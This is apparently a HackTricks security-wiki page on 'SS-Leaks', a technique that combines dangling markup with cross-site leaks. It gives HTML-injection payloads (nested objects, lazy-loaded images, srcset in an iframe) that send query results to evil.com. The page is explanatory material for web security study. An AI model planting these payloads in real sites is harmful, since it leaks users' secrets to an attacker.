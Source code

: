 # SS-Leaks

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

This is a **mix** between **dangling markup and XS-Leaks**. From one side the vulnerability allows to **inject HTML** (but not JS) in a page of the **same origin** of the one we will be attacking. On the other side we won't **attack** directly the page where we can inject HTML, but **another page**.

## Nested Objects

If the <mark style="color:yellow;">`/api/v1/leaky?secret=a`</mark> endpoint returns a 404 status code, then the inner `object` is loaded, giving a callback to <mark style="color:yellow;">`https://evil.com?callback=a`</mark> and letting us know that the search query `a` yielded no results.

```html
<object data="/api/v1/leaky?secret=a">
    <object data="https://evil.com?callback=a"></object>
</object>
```

### Lazy Loading

What if CSP blocks external objects? Let's try again with the following CSP:

<mark style="color:yellow;">`Content-Security-Policy: default-src 'self'; img-src *;`</mark>

Our callback `object` from above no longer works. In its place, we can use image [lazy loading](https://developer.mozilla.org/en-US/docs/Web/Performance/Lazy\_loading)! The following image will only load when it is visible and within a certain distance from the viewport.

```html
<object data="/api/v1/leaky?secret=a">
    <img src="https://evil.com?callback" loading="lazy">
</object>
```

### Responsive Images

The above technique is great, but it relies on our HTML injection being within the user's viewport.

If the injection is off-screen and the user doesn't scroll, can we still leak data? Of course, we can use element IDs and [scroll-to-text-fragment](https://chromestatus.com/feature/4733392803332096) to create a URL that forces a scroll, but these rely on user interaction and don't allow us to achieve consistent leaks in a real-world scenario. Ideally, we want to weaponise stored HTML injection in a reliable manner.

Enter responsive images! Specifically, the `srcset` and `sizes` attributes of images.

{% code overflow="wrap" %}
```html
<object data="/api/v1/leaky?secret=a">
    <iframe srcdoc="<img srcset='https://evil.com?callback=1 480w, https://evil.com?callback=0 800w' sizes='(min-width: 1000px) 800px, (max-width 999px) 480px'>" width="1000px">
</object>
```
{% endcode %}

There's quite a few things to unpack here. First, remember that the inner iframe will only be visible if the leaky endpoint returns a 404 status code.

This is important because we are now going to conditionally load the image within the iframe from two different URLs. Using the `sizes` attribute, we can use [media queries](https://developer.mozilla.org/en-US/docs/Web/CSS/CSS\_media\_queries/Using\_media\_queries) to choose which URL to load the image from, depending on the viewport size.

{% code overflow="wrap" %}
```html
<img 
    srcset='https://evil.com?callback=0 800w, https://evil.com?callback=1 480w' 
    sizes='(min-width: 1000px) 800px, (max-width 999px) 480px'
>
```
{% endcode %}

Because our iframe has `width="1000px"`, the following happens:

1. If the leaky endpoint returns a 404 status code, the iframe is displayed and has a width of 1000px. The image within the iframe matches the `(min-width: 1000px)` media query and loads the 800px image from `https://evil.com?callback=0`.
2. If the leaky endpoint returns a 200 status code, the iframe is _not_ displayed. Since the image is not being rendered as part of a large iframe, it matches the `(max-width 999px)` media query and loads the 480px image from `https://evil.com?callback=1`.

## References

* [https://infosec.zeyu2001.com/2023/from-xs-leaks-to-ss-leaks](https://infosec.zeyu2001.com/2023/from-xs-leaks-to-ss-leaks)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
